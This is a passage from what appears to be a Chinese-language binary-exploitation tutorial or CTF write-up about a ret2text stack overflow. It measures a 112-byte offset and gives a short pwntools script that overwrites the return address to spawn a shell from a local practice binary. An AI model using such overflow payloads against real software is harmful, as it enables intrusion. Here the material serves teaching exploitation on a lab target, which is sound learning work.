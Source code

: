 ```
通过报错的内存地址，即可确认栈空间的溢出的长度是112
pattern offset 0x41384141
```

![image-20241214212809650](pwn二进制漏洞/image-20241214212809650.png)	

```python
于是编写poc.py来验证来获得shell.
from pwn import *
p = process("./ret2text")
offset = 112
payload = offset * b'a' + p32(0x0804863a)
p.sendline(payload)
p.interactive()
```

![image-20241214223432091](pwn二进制漏洞/image-20241214223432091.png)	

## 使用gdb附加调试64位程序
